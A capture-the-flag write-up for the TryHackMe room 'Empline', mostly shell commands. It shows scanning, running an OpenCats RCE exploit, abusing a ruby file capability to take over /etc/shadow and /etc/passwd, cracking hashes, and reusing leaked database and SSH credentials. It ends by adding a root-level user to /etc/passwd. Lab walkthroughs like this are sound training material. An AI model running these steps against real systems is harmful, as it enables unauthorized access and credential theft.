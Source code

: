 # Empline

**Room Link:** [https://tryhackme.com/room/empline](https://tryhackme.com/room/empline)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

**Kali**

```
gobuster dir --url http://$VICTIM/ -w /usr/share/dirb/wordlists/big.txt -l
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
echo "$VICTIM job.empline.thm" >> /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

OpenCats 0.9.4 has a RCE exploit.

Exploit: [https://www.exploit-db.com/raw/50585](https://www.exploit-db.com/raw/50585)

**Kali**

```
chmod +x exploit.sh 
./exploit.sh 
./exploit.sh http://job.empline.thm/
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
ls -lah /etc/shadow
ruby -e 'require "fileutils"; FileUtils.chown("www-data", "www-data", "/etc/shadow")'
ls -lah /etc/shadow
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

Now that we can read both f these files we can transfer them to Kali. I let this run for a while but it wasn't cracking any hashes.

```
cat /etc/passwd
cat /etc/shadow
```

**Kali**

```
unshadow passwd shadow > passwords.txt
```

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

I went back to the check the box and found the database credentials&#x20;

**Victim**

```
find / -name "config.php"
cat /var/www/opencats/config.php 
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
mysql -h $VICTIM -u james -png6pUFvsGNtw  
```

**Kali(mysql)**

```
show databases;
use opencats
show tables;  
select * from user;  
```



There were a few hashes from users so I put them in crackstation and one returned a result.

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

## **TCP/22 - SSH**

**Kali**

```
ssh george@$VICTIM
Password: pretonnevippasempre
```



## Privilege Escalation

Since I had access to change any file already I just added a new root user to passwd

**Victim**

```
ruby -e 'require "fileutils"; FileUtils.chown("george", "george", "/etc/passwd")'
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
